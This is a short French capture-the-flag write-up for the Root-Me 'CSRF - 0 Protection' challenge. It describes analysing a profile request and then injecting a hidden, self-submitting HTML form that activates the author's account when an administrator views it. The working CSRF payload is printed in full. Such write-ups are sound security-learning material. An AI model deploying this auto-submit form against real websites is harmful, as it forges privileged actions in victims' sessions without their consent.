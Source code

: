 ```yaml
---
title: 'CSRF - 0 Protection'
description: "Exploitation d'une vulnérabilité CSRF pour activer un compte automatiquement"
pubDate: 'Jul 1 2025'
heroImage: '/src/assets/root_me/rootme13-0.png'
---
```


## 11. CSRF - 0 Protection

**Objectif :** Activer votre compte pour accéder à l'espace privé de l'intranet  
**Méthode :** Injection d'un formulaire HTML avec auto-soumission  
**Outils utilisés :** Code HTML (Form)  
**Temps :** 25 minutes  


### Solution

Exploitation d'une vulnérabilité CSRF pour activer un compte automatiquement.

![Challenge CSRF](/src/assets/root_me/rootme13-0.png)

**Étapes :**
1. Analyser la requête légitime de modification de profil
2. Créer un formulaire malveillant qui reproduit cette requête
3. Injecter le code dans un champ de saisie :
   ```html
   <form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
     <input type="text" name="username" value="fanny" />
     <input type="checkbox" name="status" checked=checked />
     <input type="submit" value="Submit request" />
   </form>
   <script>document.csrf.submit()</script>
   ```
4. Le formulaire se soumet automatiquement côté administrateur
5. Le compte est activé via la requête CSRF


![Challenge CSRF](/src/assets/root_me/rootme13-2.png)

